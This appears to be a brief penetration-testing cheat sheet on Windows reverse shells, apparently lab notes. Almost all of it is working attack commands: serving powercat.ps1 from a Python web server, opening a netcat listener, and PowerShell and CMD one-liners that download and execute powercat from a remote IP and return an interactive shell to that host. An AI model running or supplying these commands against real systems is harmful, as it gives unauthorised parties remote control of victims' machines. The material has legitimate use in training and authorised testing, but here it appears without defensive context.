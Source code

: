 # Reverse Shells

Serve Powercat.ps1

```bash
cd /usr/share/windows-resources && python3 -m http.server 80
```

Start listener

```
rlwrap nc -lvnp 4444
```

Run one of the commands (PS or CMD):

PS

```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.233/powercat.ps1");powercat -c 192.168.45.233 -p 4444 -e powershell 
```

CMD

```cmd
powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.233/powercat.ps1'); powercat -c 192.168.45.233 -p 4444 -e powershell"
```
